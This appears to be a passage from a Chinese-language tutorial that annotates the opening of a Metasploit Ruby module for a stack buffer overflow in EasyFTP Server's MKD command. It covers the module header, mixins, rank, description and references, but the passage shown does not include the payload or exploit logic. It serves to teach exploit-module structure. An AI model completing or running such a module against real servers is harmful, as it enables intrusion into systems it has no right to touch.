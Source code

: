 上述代码是表示文件名、修订号以及漏洞的日期和时间值的基本标头：

```
 ##
    # This file is part of the Metasploit Framework and may be subject  to
    # redistribution and commercial restrictions. Please see the  Metasploit
    # Framework web site for more information on licensing and terms  of use.
    # http://metasploit.com/framework/
    ##
    require 'msf/core' 
```

MSF 核心库需要在利用开始时进行初始化：

```
class Metasploit3 <Msf::Exploit::Remote 
```

在上述代码中，`Exploitmixin/`类是为远程 TCP 连接提供各种选项和方法的类，例如`RHOST`、`RPORT`、`Connect()`、`Disconnect()`和`SSL()`。以下代码是根据其频繁需求和使用分配给漏洞的等级：

```
 Rank = GreatRanking 
```

在以下代码中，`Ftp mixin/`类与 FTP 服务器建立连接：

```
includeMsf::Exploit::Remote::Ftp 
```

以下代码提供了有关漏洞的通用信息，并指向已知的参考资料：

```
def initialize(info = {}) 
super(update_info(info, 
      'Name'           => 'EasyFTP Server <= 1.7.0.11 MKD Command  Stack Buffer Overflow', 
      'Description'    => %q{ 
          This module exploits a stack-based buffer overflow in  EasyFTP Server 1.7.0.11 
and earlier. EasyFTP fails to check input size when  parsing 'MKD' commands, which 
leads to a stack based buffer overflow. 

        NOTE: EasyFTP allows anonymous access by default. However,  in order to access the 
        'MKD' command, you must have access to an account that can create directories. 

        After version 1.7.0.12, this package was renamed  "UplusFtp". 

        This exploit utilizes a small piece of code that I've  referred to as 'fixRet'. 
        This code allows us to inject of payload of ~500 bytes  into a 264 byte buffer by 
        'fixing' the return address post-exploitation.  See  references for more information. 
      }, 
      'Author'         => 
        [ 
          'x90c',   # original version 
          'jduck'   # port to metasploit / modified to use fix-up  stub (works with bigger payloads) 
        ], 
      'License'        => MSF_LICENSE, 
      'Version'        => '$Revision: 9935 $', 
      'References'     => 
        [ 
[ 'OSVDB', '62134' ], 
[ 'URL', 'http://www.exploit-db.com/exploits/12044/' ], 
[ 'URL', 'http://www.exploit-db.com/exploits/14399/' ] 
        ], 
```
